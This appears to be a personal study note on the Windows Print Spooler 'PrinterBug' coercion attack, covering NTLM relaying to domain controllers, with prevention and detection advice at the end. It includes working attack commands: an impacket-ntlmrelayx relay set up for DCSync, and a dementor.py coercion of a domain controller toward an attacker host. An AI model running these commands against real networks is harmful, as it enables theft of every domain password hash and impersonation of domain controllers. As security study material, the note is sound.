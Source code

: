 ### General Notes

The *print spooler* service is enabled by default and it is vulnerable to an exploit that allows a remote computer to connect to another computer of choice that it can reach.
- Any remote [[Objects#Users|User]] can coerce a remote machine to *authenticate* to another machine using a [[Kerberos]] *TGT*, this is called *relaying*.

**Relaying** a connection is taking the authentication attempt from a computer and acting as the middle man and sending it to another computer.
- The attacker forces a machine to authenticate to them, and instead of keeping that connection, the attacker *relays* it to another service.
- The target service believes that the initial machine is the one authenticating.
###### Print Spooler
The *print spooler* is an executable file that manages the printing process.
###### Impact on [[Domain Controller]]s
If any Domain Controller has *print spooler* service enabled - knowing it is the most powerful machine in the [[Active Directory]] domain - an attacker can force the DC to authenticate elsewhere. 

The following attacks are possible:
1. The attacker can authenticate to another DC, and perform a [[DCSync]] attack to extract all the password hashes of the Active Directory. This is the case if [[Server Message Block (SMB)]] signing is off.
2. Relay the authentication to *Active Directory Certificate Services* to obtain a [[Certificates|Certificate]] for the [[Domain Controller]] that can be used by attackers to pretend to be the Domain Controller.
3. The attacker can relay the connection to a machine with [[Kerberos Constrained Delegation Attack#Delegation|Unconstrained Delegation]] enabled, which causes that machine to obtain the DC's *TGT*. The attacker can them dump the *TGT* of the DC from the machine and impersonate the DC.

> This is a type of [[Coercing Attacks]], where an attacker forces or tricks a Windows host into authenticating to another system controlled by the attacker.

---
### Attack Path for [[DCSync]]

The idea here is to trick DC1 that has the print spooler enabled to connect to the attacker machine.
- The attacker machine then *relays* that authentication to DC2 and tries to perform the DCSync attack.

We set up the relay at the attacker machine:
```bash
impacket-ntlmrelayx -t dcsync://<DC2-IP> -smb2support
```
- The target here which is specified using `-t` is the DC at the given IP address and using the `dcsync` module.
- Add the `-smb2support` flag to support the SMBv2 [[Protocol]] which makes the relay work.

Now that the relay is operational, we need to trigger the printer bug exploit to make DC1 connect to the attacker machine hosting the relay:
- This can be done using [Dementor](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) from a non-domain joined machine and using any authenticated user on the domain.
```bash
python3 ./dementor.py <DC1_IP> <Attacker_IP> -u <DomainUser> -d <DomainName> -p <Password>
```

Now, if we open the terminal session with the relay open, we will get the Kerberos ticket for the domain controller, as well as the password hashes.

---
### Prevention & Detection

Print Spooler should be disabled on all servers that are not printing servers. 

Additionally, there is an option to prevent the abuse of the `PrinterBug` while keeping the service running: 
- The [[Windows Registry]] Key `RegisterSpoolerRemoteRpcEndPoint` can be set to `2` to disable any remote requests at `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Printers`.

To detect this, look for [[Windows Events Log]] events with the successful logon ID where the source of login is coming from a weird IP address and the destination is a [[Domain Controller]].

